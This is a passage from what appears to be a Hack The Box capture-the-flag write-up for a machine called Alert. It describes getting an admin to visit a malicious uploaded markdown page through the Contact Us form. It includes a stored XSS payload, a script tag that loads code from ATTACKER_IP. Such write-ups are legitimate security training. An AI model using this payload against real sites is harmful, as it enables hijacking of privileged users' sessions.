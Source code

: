 There are two pieces we need to connect to progress.
We know an admin will visit any link that we send
through the `Contact Us` page. We can also create a page
which runs JavaScript. By sending the admin our malicious
page, we should be able to run code as a privileged user.

To confirm this, we can upload another `md` file which
will request a file from our web server. 
```javascript
<script src="http://ATTACKER_IP/admin-xss-test"></script>
```

Now we can share the link with the admin by sending it 
through the Contact Page

![admin-xss-setup](/images/htb-alert/admin-xss-setup.png)
